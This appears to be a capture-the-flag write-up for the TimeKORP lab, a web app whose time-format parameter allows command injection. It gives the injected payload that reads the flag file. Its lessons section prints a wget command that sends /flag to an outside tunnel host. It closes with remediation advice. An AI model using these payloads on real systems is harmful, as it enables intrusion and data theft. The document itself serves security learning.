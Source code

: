 TimeKORP is a web application that fetches the current time from the backend server. However, it is vulnerable to command injection. 
Very exciting twists in this lab, and lots of lessions learned.

## Solution
To solve the challenge, discover the injectable parameter by intercepting a request with Burp Suite.
`/?format=%H:%M`
this returned the time from the server.

it can be injected by encapsulating `%H:%M` in single qoutes adding `;<command>` that is, `‘%H:%M;<command>’`
This causes command execution on the server.

However, the buffer for the website only showed one line at a time, that is the last line of any command result and the the flag since it was not conventionally named (flag.txt). Therefore, commands like `find` which returned many lines were of no use. Exfiltrating retults of the same was to no avail. Below, you will find lots of failed attempts including exfiltration through a tunnel, directory listing, base64 encoding to exfiltrate. 

the flag could be retrieved by `‘%H:%M;cat /flag’ `that is `/?format=%27%H:%M;cat%20/flag%27`

## Lessons Learnt
Learnt about setting up a tunnel with serveo to expose a private IP to the internet. 
Data exfiltration throught wget and a serveo tunnel
```
wget --post-file=/flag https://fd606f13904bcb33418d892c3c293f6c.serveo.net
```
## Remediation
- Do not invoke shell commands. Instead, use the programming language's date and time functions.
- Do not try to sanitise user input. Instead, have a strick whitelist and use a time-formatting API.
- Employ defence-in-depth, that is, least privilege, segregation (app has no access to sensitive files), employ egress restriction.
   
<img width="1811" height="990" alt="flag1" src="https://github.com/user-attachments/assets/4d151f84-7373-416c-acaf-2ad4802078c6" />

<img width="664" height="675" alt="serveo" src="https://github.com/user-attachments/assets/aa8c02e0-314f-42af-8c7f-f1e343afa9c0" />

<img width="661" height="1307" alt="etc-folder" src="https://github.com/user-attachments/assets/c7fdad6e-49f9-478b-84e3-52a1885bb145" />
